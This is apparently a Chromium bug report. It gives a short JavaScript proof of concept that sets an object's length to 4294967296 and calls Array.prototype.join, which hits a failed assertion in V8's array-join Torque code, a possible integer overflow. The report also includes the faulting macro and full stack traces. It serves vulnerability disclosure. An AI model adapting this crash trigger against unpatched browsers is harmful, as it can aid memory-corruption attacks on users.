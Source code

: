 UserAgent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36

Steps to reproduce the problem:
POC：
a = this;
b = {};
a.length = 4294967296;
Array.prototype.join.call(a,b );

What is the expected behavior?
Please reproduce with v8 debug version x86.

In  Array-join.tq
  macro BufferInit(len: uintptr, sep: String): Buffer {
    const cappedBufferSize: intptr = len > kMaxNewSpaceFixedArrayElements ?
        kMaxNewSpaceFixedArrayElements :
        Signed(len);
    assert(cappedBufferSize > 0);
    const fixedArray: FixedArray = AllocateZeroedFixedArray(cappedBufferSize);
    const isOneByte: bool = HasOnlyOneByteChars(sep.instanceType);
    return Buffer{fixedArray, 0, 0, isOneByte};
  }

cappedBufferSize might be negative.

What went wrong?
abort: CSA_ASSERT failed: Torque assert 'cappedBufferSize > 0' failed [../../src/builtins/array-join.tq:171]

==== JS stack trace =========================================

    0: ExitFrame [pc: 07E24070]
    1: StubFrame [pc: 07E77A97]
Security context: 0x2300d5ad <JSObject>#0#
    2: join [23001975](this=0x1dd80a79 <JSGlobal Object>#1#,0x1dd85575 <Object map = 30F0022D>#2#)
    3: /* anonymous */ [23010365] [g:\poc\array\Overflow.js:9] [bytecode=230102F1 offset=52](this=0x1dd80a79 <JSGlobal Object>#1#)
    4: InternalFrame [pc: 07B2F781]
    5: EntryFrame [pc: 261020FC]

==== Details ================================================

[0]: ExitFrame [pc: 07E24070]
[1]: StubFrame [pc: 07E77A97]
[2]: join [23001975](this=0x1dd80a79 <JSGlobal Object>#1#,0x1dd85575 <Object map = 30F0022D>#2#) {
// optimized frame
--------- s o u r c e   c o d e ---------
<No Source>
-----------------------------------------
}
[3]: /* anonymous */ [23010365] [g:\poc\array\Overflow.js:9] [bytecode=230102F1 offset=52](this=0x1dd80a79 <JSGlobal Object>#1#) {
  // expression stack (top to bottom)
  [06] : 0x1dd85575 <Object map = 30F0022D>#2#
  [05] : 0x1dd80a79 <JSGlobal Object>#1#
  [04] : 0x1dd85575 <Object map = 30F0022D>#2#
  [03] : 0x1dd80a79 <JSGlobal Object>#1#
  [02] : 0x23001975 <JSFunction join (sfi = 0C7083B9)>#3#
  [01] : 0x23001345 <JSFunction call (sfi = 0C707DB1)>#4#
  [00] : 0x26280289 <undefined>
--------- s o u r c e   c o d e ---------
\x0a\x0aa = this;\x0ab = {};\x0a\x0a\x0aa.length = 4294967296;\x0a\x0aArray.prototype.join.call(a,b );\x0a\x0a\x0a\x0a\x0a\x0a
-----------------------------------------
}

[4]: InternalFrame [pc: 07B2F781]
[5]: EntryFrame [pc: 261020FC]
==== Key         ============================================

 #0# 2300D5AD: 0x2300d5ad <JSObject>
 #1# 1DD80A79: 0x1dd80a79 <JSGlobal Object>
 #2# 1DD85575: 0x1dd85575 <Object map = 30F0022D>
 #3# 23001975: 0x23001975 <JSFunction join (sfi = 0C7083B9)>
 #4# 23001345: 0x23001345 <JSFunction call (sfi = 0C707DB1)>
=====================

==== C stack trace ===============================

        (No symbol) [0x00000000]
        v8::base::OS::Abort [0x0F542C99+73] (G:\v8_1025\v8\src\base\platform\platform-win32.cc:932)
        v8::internal::__RT_impl_Runtime_AbortJS [0x075F7ED6+614] (G:\v8_1025\v8\src\runtime\runtime-test.cc:706)
        v8::internal::Runtime_AbortJS [0x075F7A7D+365] (G:\v8_1025\v8\src\runtime\runtime-test.cc:696)
        Builtins_CEntry_Return1_DontSaveFPRegs_ArgvOnStack_NoBuiltinExit [0x07E24070+80]
        Builtins_ArrayJoinWithoutToLocaleString [0x07E77A97+9431]
        Builtins_ArrayPrototypeJoin [0x07E80180+3360]
        (No symbol) [0x26110F35]
        Builtins_JSEntryTrampoline [0x07B2F781+97]
        (No symbol) [0x261020FC]
        v8::internal::GeneratedCode<v8::internal::Object *,v8::internal::Object *,v8::internal::Object *,v8::internal::Object *,int,v8::internal::Object ***>::Call [0x06EA2FAC+108] (G:\v8_1025\v8\src\simulator.h:113)
        v8::internal::`anonymous namespace'::Invoke [0x06EA12D4+2244] (G:\v8_1025\v8\src\execution.cc:156)
        v8::internal::`anonymous namespace'::CallInternal [0x06EA0864+372] (G:\v8_1025\v8\src\execution.cc:192)
        v8::internal::Execution::Call [0x06EA06CD+157] (G:\v8_1025\v8\src\execution.cc:203)
        v8::Script::Run [0x06404369+1017] (G:\v8_1025\v8\src\api.cc:2110)
        v8::Shell::ExecuteString [0x00BBE2DA+2314] (G:\v8_1025\v8\src\d8.cc:534)
        v8::SourceGroup::Execute [0x00BCE89B+1019] (G:\v8_1025\v8\src\d8.cc:2478)
        v8::Shell::RunMain [0x00BD1DF9+393] (G:\v8_1025\v8\src\d8.cc:2956)
        v8::Shell::Main [0x00BD3D45+3189] (G:\v8_1025\v8\src\d8.cc:3506)
        main [0x00BD463C+44] (G:\v8_1025\v8\src\d8.cc:3541)
        invoke_main [0x00C1374E+30] (f:\dd\vctools\crt\vcstartup\src\startup\exe_common.inl:78)
        __scrt_common_main_seh [0x00C138B7+343] (f:\dd\vctools\crt\vcstartup\src\startup\exe_common.inl:288)
        __scrt_common_main [0x00C1398D+13] (f:\dd\vctools\crt\vcstartup\src\startup\exe_common.inl:331)
        mainCRTStartup [0x00C13998+8] (f:\dd\vctools\crt\vcstartup\src\startup\exe_main.cpp:17)
        BaseThreadInitThunk [0x766E8484+36]
        RtlValidSecurityDescriptor [0x771E305A+282]
        RtlValidSecurityDescriptor [0x771E302A+234]

Did this work before? N/A 

Chrome version: 70.0.3538.77  Channel: stable
OS Version: 10.0
Flash Version: